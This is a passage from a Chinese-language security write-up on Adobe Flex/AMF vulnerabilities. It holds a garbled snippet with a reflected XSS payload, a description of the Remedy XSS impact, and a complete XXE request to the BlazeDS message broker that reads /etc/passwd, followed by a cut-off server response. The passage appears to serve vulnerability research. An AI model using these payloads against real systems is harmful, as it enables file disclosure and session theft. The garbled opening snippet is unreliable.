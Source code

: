 ```http
codelogged.statusCode..-defaultLogMessageIntro.details#preferredLogLevel&#43;rootCauseErrorMessage
.
......)Method &#39;getUndefinedDataSources&lt;script&gt;alert(1)&lt;/script&gt;&#39; not
found...1Cannot invoke method &#39;getUndefinedDataSourcesfdd4d
```

攻击者或许能够使点击了基于 Remedy 知识管理网站链接的用户在其浏览器中执行恶意脚本代码。此类代码将在目标域的安全环境内运行。这种类型的攻击可能导致目标网站的非持久性篡改，或者将机密信息（即会话 ID）重定向到未经授权的第三方。利用此漏洞无需进行身份验证。

#### XXE&amp;XML注入

[Adobe (Multiple Products) - XML External Entity / XML Injection](https://www.exploit-db.com/exploits/11529)

这几漏洞是http 通道的，严格来说，不能算是AMF下的案例，但是确实也是 Flex 框架的，暂时放这吧，本质是一样的。

**XXE**

```xml
POST /samples/messagebroker/http HTTP/1.1
Content-type: application/x-amf

&lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt;
&lt;!DOCTYPE test [ &lt;!ENTITY x3 SYSTEM &#34;/etc/passwd&#34;&gt; ]&gt;
&lt;amfx ver=&#34;3&#34; xmlns=&#34;http://www.macromedia.com/2005/amfx&#34;&gt;
  &lt;body&gt;
    &lt;object type=&#34;flex.messaging.messages.CommandMessage&#34;&gt;
      &lt;traits&gt;
        &lt;string&gt;body&lt;/string&gt;&lt;string&gt;clientId&lt;/string&gt;&lt;string&gt;correlationId&lt;/string&gt;
        &lt;string&gt;destination&lt;/string&gt;&lt;string&gt;headers&lt;/string&gt;&lt;string&gt;messageId&lt;/string&gt;
        &lt;string&gt;operation&lt;/string&gt;&lt;string&gt;timestamp&lt;/string&gt;&lt;string&gt;timeToLive&lt;/string&gt;
      &lt;/traits&gt;
      &lt;object&gt;&lt;traits /&gt;&lt;/object&gt;
      &lt;null /&gt;&lt;string /&gt;&lt;string /&gt;
      &lt;object&gt;
        &lt;traits&gt;
          &lt;string&gt;DSId&lt;/string&gt;&lt;string&gt;DSMessagingVersion&lt;/string&gt;
        &lt;/traits&gt;
        &lt;string&gt;nil&lt;/string&gt;&lt;int&gt;1&lt;/int&gt;
      &lt;/object&gt;
      &lt;string&gt;&amp;x3;&lt;/string&gt;
			&lt;int&gt;5&lt;/int&gt;&lt;int&gt;0&lt;/int&gt;&lt;int&gt;0&lt;/int&gt;
    &lt;/object&gt;
  &lt;/body&gt;
&lt;/amfx&gt;
```

响应体

```xml
&lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt;
&lt;amfx ver=&#34;3&#34;&gt;&lt;header name=&#34;AppendToGatewayUrl&#34; mustUnderstand=&#34;true&#34;&gt;
&lt;string&gt;;jsessionid=2191D3647221B72039C5B05D38084A42&lt;/string&gt;&lt;/header&gt;
&lt;body targetURI=&#34;/onResult&#34; responseURI=&#34;&#34;&gt;
&lt;object type=&#34;flex.messaging.messages.AcknowledgeMessage&#34;&gt;
&lt;traits&gt;&lt;string&gt;timestamp&lt;/string&gt;&lt;string&gt;headers&lt;/string&gt;
&lt;string&gt;body&lt;/string&gt;&lt;string&gt;correlationId&lt;/string&gt;
&lt;string&gt;messageId&lt;/string&gt;&lt;string&gt;timeToLive&lt;/string&gt;
&lt;string&gt;clientId&lt;/string&gt;&lt;string&gt;destination&lt;/string&gt;
&lt;/traits&gt;&lt;double&gt;1.257387140632E12&lt;/double&gt;&lt;object&gt;
&lt;traits&gt;&lt;string&gt;DSMessagingVersion&lt;/string&gt;
&lt;string&gt;DSId&lt;/string&gt;&lt;/traits&gt;&lt;double&gt;1.0&lt;/double&gt;
&lt;string&gt;BDE929FE-270D-3B56-1061-616E8B938429&lt;/string&gt;
```